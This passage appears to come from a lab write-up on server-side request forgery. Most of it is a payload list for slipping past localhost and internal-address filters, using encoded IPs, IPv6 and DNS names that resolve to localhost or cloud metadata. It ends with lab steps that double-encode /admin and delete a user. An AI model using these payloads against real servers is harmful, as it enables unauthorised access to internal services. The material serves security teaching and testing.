


There are a few defense mechanisms. Instead of going for the IP (`localhost` or `127.0.0.1`) we can encode the IP in other ways. 

Here are a lot of ways of encode the IP:
```# Localhost
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://127.000000000000000.1
http://0
http:@0/ --> http://localhost/
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR bypass
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# Octal Bypass
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# Add 0s bypass
127.000000000000.1

# You can also mix different encoding formats
# https://www.silisoftware.com/tools/ipconverter.php

# Malformed and rare
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS to localhost
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```

The techniques used were: 
- Use 127.1 instead of 127.0.0.1
- **Double URL-encode /admin (URL encode and then URL encode the result)**

Sending the rest of the request as usual `/delete?username=carlos`
